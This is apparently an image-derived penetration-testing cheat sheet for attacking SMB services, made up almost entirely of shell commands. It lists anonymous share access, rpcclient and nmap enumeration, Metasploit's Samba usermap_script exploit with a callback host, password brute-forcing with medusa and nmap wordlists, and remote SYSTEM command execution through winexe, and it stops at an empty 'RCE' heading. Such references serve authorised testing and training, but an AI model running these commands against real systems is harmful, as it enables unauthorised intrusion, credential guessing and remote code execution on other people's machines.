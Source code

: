 ```bash

# Connect to username shares
smbclient //$IP/share -U username

# Connect to share anonymously
smbclient \\\\$IP\\<share>
smbclient //$IP/<share>
smbclient //$IP/<share\ name>
smbclient //$IP/<""share name"">
rpcclient -U " " $IP
rpcclient -U " " -N $IP

# Check vulns
nmap --script smb-vuln* -p139,445 -T4 -Pn $IP

# Check common security concerns
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc

# Extra validation
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_validate.rc

# Multi exploits
msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost $IP; run

# Bruteforce login
medusa -h $IP -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt 
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt $IP  -vvvv
nmap –script smb-brute $IP

# nmap smb enum & vuln 

nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 $IP

nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 $IP

# Mount smb volume linux
mount -t cifs -o username=user,password=password //$IP/share /mnt/share

# rpcclient commands
rpcclient -U "" $IP
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall

# Run cmd over smb from linux
winexe -U username //$IP "cmd.exe" --system

# smbmap
    #Enum
smbmap.py -H $IP -u administrator -p asdf1234 
    #RCE
```